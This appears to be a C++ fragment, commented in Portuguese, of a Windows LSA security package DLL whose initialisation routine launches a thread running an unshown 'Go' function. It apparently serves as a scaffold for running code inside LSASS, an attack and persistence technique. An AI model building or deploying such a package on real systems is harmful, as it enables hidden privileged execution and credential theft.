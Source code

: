 ~~~cpp
  PUNICODE_STRING *AuthenticatingAuthority,
  PUNICODE_STRING *MachineName,
  PSECPKG_PRIMARY_CRED PrimaryCredentials,
  PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials) {
    return 0;
}

// Tabela de funções do pacote de segurança
SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = {
    {
        LsaApInitializePackage,
        LsaApLogonUser,
        LsaApCallPackage,
        LsaApLogonTerminated,
        LsaApCallPackageUntrusted,
        LsaApCallPackagePassthrough,
        LsaApLogonUserEx,
        LsaApLogonUserEx2,
        SpInitialize,
        SpShutDown,
        (SpGetInfoFn *) SpGetInfo,
        NULL, NULL, NULL, NULL, NULL,
        NULL, NULL, NULL, NULL, NULL,
        NULL, NULL, NULL, NULL, NULL,
        NULL
    }
};

// Função de inicialização do pacote de segurança em modo LSA.
NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion,
                                    PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables) {
    HANDLE th;

    // Lança um código em uma nova thread
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) Go, 0, 0, 0);
    WaitForSingleObject(th, 0);

    // Define a versão do pacote de segurança e a tabela de funções
    *PackageVersion = SECPKG_INTERFACE_VERSION;
    *ppTables = SecurityPackageFunctionTable;
    *pcTables = 1;

    return STATUS_SUCCESS;
}

// Ponto de entrada da DLL
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}

~~~
